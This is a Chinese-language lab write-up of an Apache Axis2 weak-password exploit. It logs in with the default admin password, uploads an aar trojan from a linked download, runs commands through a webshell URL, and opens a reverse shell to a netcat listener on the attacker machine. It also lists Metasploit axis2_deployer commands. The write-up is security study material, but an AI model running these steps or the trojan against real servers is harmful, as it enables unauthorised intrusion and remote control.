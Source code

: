 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486072&idx=1&sn=1d149c024fede423c27c5d8d8fa8371a

#  【漏洞复现】Apache Axis2弱口令（附测试靶机）  
稻草人  玄武盾网络技术实验室   2025-07-01 00:35  
  
“  
对我们感兴趣的话就点个关注吧  
”  
  
## 免责声明：本文仅供安全研究与学习之用，严禁用于非法用途，违者后果自负。  
  
****  
本文详细介绍了Apache Axis2的一个安全漏洞，通过扫描器发现该漏洞允许未经验证的远程命令执行。作者演示了如何使用admin默认密码登录，上传aar木马文件，并通过执行特定命令反弹shell。此外，还展示了使用Meterpreter进行漏洞利用的过程。  
#### 环境介绍  
<table><thead><tr style="box-sizing: border-box;outline: 0px;border-width: 1px 0px 0px;border-right-style: initial;border-bottom-style: initial;border-left-style: initial;border-right-color: initial;border-bottom-color: initial;border-left-color: initial;border-image: initial;border-top-style: solid;border-top-color: rgb(221, 221, 221);background-color: rgb(255, 255, 255);font-synthesis-style: auto;overflow-wrap: break-word;"><th style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: 700;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;background-color: rgb(239, 243, 245);"><section><span leaf="">主机</span></section></th><th style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: 700;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;background-color: rgb(239, 243, 245);"><section><span leaf="">IP</span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;outline: 0px;"><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">靶机</span></section></td><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;"><section><span leaf="">192.168.30.134</span></section></td></tr><tr style="box-sizing: border-box;outline: 0px;border-width: 1px 0px 0px;border-right-style: initial;border-bottom-style: initial;border-left-style: initial;border-right-color: initial;border-bottom-color: initial;border-left-color: initial;border-image: initial;border-top-style: solid;border-top-color: rgb(221, 221, 221);background-color: rgb(247, 247, 247);font-synthesis-style: auto;overflow-wrap: break-word;"><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">kali</span></section></td><td style="box-sizing: border-box;outline: 0px;padding: 8px;margin: 0px;font-weight: normal;border: 1px solid rgb(221, 221, 221);font-synthesis-style: auto;overflow-wrap: break-word;font-size: 14px;color: rgb(79, 79, 79);line-height: 22px;vertical-align: middle;word-break: normal !important;"><section><span leaf="">192.168.30.128</span></section></td></tr></tbody></table>### 靶机获取：  

```
链接：https://pan.quark.cn/s/9dc698b2c804?pwd=t8Fv
提取码：t8Fv
```

#### 漏洞扫描：  
  
使用扫描器发现漏洞，发现可以利用  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDm3ZlD9fI389DSGdnF6zPy8wH4wfDPvbEQIkAFKVD2KPJJ7EUSsJCNwA/640?wx_fmt=jpeg "")  
### 开始复现  
  
使用admin和默认密码登陆axis2。  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmAdUouV92v4xn6NbfoqJwyQ85jf2TdOI8iaOAQa0s4KA2QUmv7JbqFDg/640?wx_fmt=jpeg "")  
  
  
发现漏洞上传点。  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmfBOFQgM4t1dVJJRLbQvCDbkEQHjIbMvibuecWOeEK6fBNJ1FHlj5q9Q/640?wx_fmt=jpeg "")  
  
  
aar木马下载：  

```
链接：https://pan.quark.cn/s/9dc698b2c804?pwd=t8Fv
提取码：t8Fv
```

  
上传木马文件  
  
![在这里插入图片描述](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmecSw2UCd1buIic2icI9n9yo2TiaqQIHOWGbKSwUcE8xQ35B2hvFQQ5IcA/640?wx_fmt=jpeg "")  
  

```
执行命令
http://192.168.30.134/axis2/services/Cat/exec?cmd=ifconfig
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmib4EulvZ7wMZ7eh6duNBX5BnYJ20KYAvcKU9hTibBuib4EkXEHaOTsnQA/640?wx_fmt=jpeg "")  
#### 反弹shell  
  
使用nc监听端口1111  

```
nc -lvp 1111
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDm69JLiaJxEPFLiblP3sn3ujtXGQN8fno2LpJ0qibKLG7wmcCZwSxGcGh2A/640?wx_fmt=png&from=appmsg "")  
### 使用命令进行反弹shell  

```
http://192.168.30.134/axis2/services/Cat/shell?host=192.168.30.128&port=1111
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmumjjDCl9veqnCaygXxFNVmQVm4Icj6lS8v6OEOKqSLwliaemCjgdARg/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmBbOs3Vbibic0SibGklib13MdZ6uO0NFGlhtOqC0lZjhu1iaZn17icATbOA5Q/640?wx_fmt=jpeg "")  
### Meterpreter复现：  

```
msfconsole 
use exploit/multi/http/axis2_deployer
msf6 exploit(multi/http/axis2_deployer) > set rhosts 192.168.30.134
msf6 exploit(multi/http/axis2_deployer) > set rport 80
msf6 exploit(multi/http/axis2_deployer) > exploit
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0kcMxX3tAAS8gLqcX1eaTDmN13sO5VkpbZYW561Bx0nFE1KjOOpmn9B0rpbNp73c4W8eMWok2D51A/640?wx_fmt=jpeg "")  
  
为爱发电，随手点个「推荐」吧！  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
* 声明：技术文章均收集于互联网，仅作为本人学习、记录使用。侵权删！！！。  
  
推荐阅读  
  
[Nacos漏洞实战攻防](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247485832&idx=1&sn=6a0c5ca8f71c5978b6a1f2957346dcec&scene=21#wechat_redirect)  
  
  
[值得关注的十大开源网络安全工具](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486028&idx=1&sn=661d541628597072c459e0b76a984602&scene=21#wechat_redirect)  
  
  
[【漏洞复现】Dataease JWT 认证绕过漏洞/远程代码执行（CVE-2025-49001/CVE-2025-49002）](https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247486028&idx=3&sn=d961f6c041977816b00f5c5e7415af1a&scene=21#wechat_redirect)  
  
  
